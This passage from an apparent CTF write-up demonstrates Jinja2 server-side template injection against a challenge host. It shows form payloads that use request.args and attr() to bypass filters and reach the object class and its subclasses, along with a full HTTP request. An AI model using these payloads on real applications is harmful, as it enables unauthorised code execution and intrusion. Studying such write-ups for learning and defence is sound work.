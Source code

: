 ```python
firstName=a&lastName=b&desc={% set string = "abc" %}{% set cls = string|attr(request.args.class) %}{% set mro = cls|attr(request.args.mro) %}{% set obj = mro|attr(request.args.getitem)(1) %}{{obj|safe}}
```
{% endraw %}

Now we have the `<class 'object'>`.

**Getting the subclasses**

![wc14](/assets/playsecure2021/wc14.png)

{% raw %}
```python
POST /generate?class=__class__&mro=__mro__&getitem=__getitem__&sc=__subclasses__ HTTP/1.1
Host: web.ps.ctf.ae:8882
Content-Length: 259
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://web.ps.ctf.ae:8882
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://web.ps.ctf.ae:8882/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

firstName=a&lastName=b&desc={% set string = "abc" %}{% set cls = string|attr(request.args.class) %}{% set mro = cls|attr(request.args.mro) %}{% set obj = mro|attr(request.args.getitem)(1) %}{% set subclasses = obj|attr(request.args.sc)() %}{{subclasses|safe}}
```